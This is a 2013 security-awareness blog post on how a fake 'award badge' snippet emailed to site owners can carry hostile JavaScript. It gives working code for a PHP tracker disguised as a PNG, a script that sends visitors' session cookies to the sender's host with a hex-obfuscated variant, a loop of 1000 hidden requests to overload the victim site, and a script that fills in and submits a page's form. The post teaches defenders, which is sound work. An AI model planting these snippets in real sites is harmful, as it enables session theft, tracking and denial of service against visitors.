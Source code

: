 ```yaml
---
title: 'The very bad things that Javascript can do: Part 2'
date: 2013-04-16
tags:
- html
- javascript
- security
---
```

In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we'll run through a few scenarios.

<!--more-->

In our scenarios here, we're going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013's best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:

    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious 
    Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  
    It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  
    We're already linking to your website - but that doesn't complete the circle.  
    If you use the banner in the code below, you not only show off your reputation 
    this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com

And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we're going to use the following banner:

[![Award](/uploads/2013/award.png)](/uploads/2013/award.png){: .inline}{: .thumbnail}

Now, lets run through some scenarios.

### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com">
  <img src="http://awardsite.com/award.png?compress=134">
</a>
```

Let's break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress' which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

```apache
<Files award.png>
  ForceType application/x-httpd-php
</Files>
```

Then, the **`award.png`** file has the following PHP. (Please note, I've not went to the trouble to make sure this handles EVERY scenario... this is meant as a proof of concept).

Note: `updateSite()` is a function that writes an entry to the database using that siteID. I didn't think it was important enough to show that code too.

```php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
  $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
  updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there's a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn't expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var i = new Image();
    i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
    document.getElementById('awardlink').appendChild(i);
  </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie' – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes... but for those who don't “work on computers” they'll just think its code they don't understand and use it.

**For future examples, I won't show how to obfuscate the code. But that would be one of the steps.**

### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn't be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'http://awardsite.com/award.png';
    var i = new Image();
    document.getElementById('awardlink').appendChild(i);
    setTimeout(function() {
      for (var x = 0; x < 1000; x++) {
        var j = new Image();
        j.style = 'display: none';
        j.src = 'http://victimsite.com/someasset.php';
        document.body.appendChild(j);
      }
    }, 3000);
  </script>
</a>
```

In this case, the image is added successfully. However, the `setTimeout()` method executes a different function 3 seconds later. The delay is so that the user won't notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image' is created 1000 times and appended to the document – with a hidden display (so the visitor can't tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the `Image()` object to load a fake form submission with GET parameters. However, it doesn't stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'award.png';
    var i = new Image();
    i.src = s;
    document.getElementById('awardlink').appendChild(i);
    var f = document.getElementById('formID');
    f[0].value = 'Some Nefarious Input';
    f.submit();
  </script>
</a>
```

This code goes and gets the form with an ID of `formID` and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if... the form doesn't have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```

OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they're doing – of course they're going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
  //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

### So what does all this mean?

Now that you've seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.
